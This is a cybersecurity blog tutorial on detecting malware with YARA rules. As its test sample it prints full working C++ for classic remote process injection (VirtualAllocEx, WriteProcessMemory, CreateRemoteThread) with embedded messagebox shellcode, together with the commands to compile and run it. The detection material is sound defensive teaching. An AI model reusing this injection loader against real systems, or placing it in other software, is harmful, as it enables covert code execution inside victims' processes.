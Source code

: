 ```yaml
---
title:  "Malware analysis 3: threat hunting via YARA. Process injection example."
date:   2022-02-15 10:00:00 +0600
header:
  teaser: "/assets/images/40/2022-02-15_22-22.png"
categories:
  - tutorial
tags:
  - red team
  - blue team
  - malware
  - analysis
  - yara
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![yara](/assets/images/40/2022-02-15_22-22.png){:class="img-responsive"}    

This is a some introductory self-researching to threat hunting with YARA.    

### yara

When performing malware analysis, the analyst needs to collect every piece of information that can be used to identify malicious software. One of the techniques is [Yara](https://github.com/VirusTotal/yara) rules. In this post, I am going to explore Yara rules and how to use them in order to detect malware.    

**Yara** is an open-source tool that assists malware researchers to identify and classify malware samples by looking for certain characteristics.    

### detect malware with Yara rules

Let's discover how to use Yara rules to discover malware. For simplicity, first example is malware with [classic](/tutorial/2021/09/18/malware-injection-1.html) process injection logic:   

```cpp
/*
hack.cpp
classic payload injection example
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/02/15/malware-analysis-3.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

// meow-meow messagebox payload (without encryption)
unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

unsigned int my_payload_len = sizeof(my_payload);

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, my_payload_len, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, my_payload_len, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

For checking correctness let's go to compile and run this code:   

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -Wint-to-pointer-cast -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![yara](/assets/images/40/2022-02-15_22-46.png){:class="img-responsive"}    

```bash
.\hack.exe 4916
```

![yara](/assets/images/40/2022-02-15_12-43.png){:class="img-responsive"}    

As you can see, our simple malware example work perfectly.    

In Yara, each rule starts with a keyword `rule` followed by a *rule identifier*:   

![yara](/assets/images/40/2022-02-15_23-03.png){:class="img-responsive"}    

Rules are generally composed of two sections: *string* definition **(1)** and *condition* **(2)**:    

![yara](/assets/images/40/2022-02-15_23-06.png){:class="img-responsive"}    

Strings can be defined in text or hexadecimal form, as shown in the following example:    

![yara](/assets/images/40/2022-02-15_23-09.png){:class="img-responsive"}    

The condition section is where the logic of the rule resides. This section must contain a boolean expression telling under which circumstances a file or process satisfies the rule or not:    

![yara](/assets/images/40/2022-02-15_23-11.png){:class="img-responsive"}    

In our test rule, which is called meow, we are looking for all files that contain the word meow. To do this, we set the meow as string and as hexadecimal format in the rules:   

![yara](/assets/images/40/2022-02-15_22-03.png){:class="img-responsive"}    

![yara](/assets/images/40/2022-02-15_22-53.png){:class="img-responsive"}    

![yara](/assets/images/40/2022-02-15_23-09.png){:class="img-responsive"}    

### demo

Let's go to see everything in action. It's pretty simple:   

```bash
yara meow.yar ./hack.exe
```
![yara](/assets/images/40/2022-02-15_23-32.png){:class="img-responsive"}    

And it works!   

You can also check the whole folder recursively:    

```bash
cd ../
yara -r 2022-02-15-malware-analysis-3/meow.yar ./
```

![yara](/assets/images/40/2022-02-15_23-37.png){:class="img-responsive"}    

But I want to find only `.exe` files. For this, update our yara rule, add condition: all the valid PE files contain the value of the first two-byte as `4D` and `5A` (**"MZ"** in ASCII), named after **M**ark **Z**bikowsky, a well-known architect of MS-DOS.    

![yara](/assets/images/40/2022-02-15_23-42.png){:class="img-responsive"}    

So, update our code of yara rule file:   

![yara](/assets/images/40/2022-02-15_23-58.png){:class="img-responsive"}    

Then, run with new `meow.yar`:    

```bash
cd ../
yara -r 2022-02-15-malware-analysis-3/meow.yar ./
```

![yara](/assets/images/40/2022-02-15_23-50.png){:class="img-responsive"}    

As you can see Yara found all `pe`-files which contains `Meow-meow` string.    

Also found "evil" DLLs from the [previous](/pentest/2021/10/12/dll-hijacking-2.html) blog posts:    

![yara](/assets/images/40/2022-02-15_23-57.png){:class="img-responsive"}    

[Yara](https://github.com/VirusTotal/yara)    
[awesome-yara](https://github.com/InQuest/awesome-yara)    
[Classic code injection technique](/tutorial/2021/09/18/malware-injection-1.html)    
[source code on Github](https://github.com/cocomelonc/2022-02-15-malware-analysis-3)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*

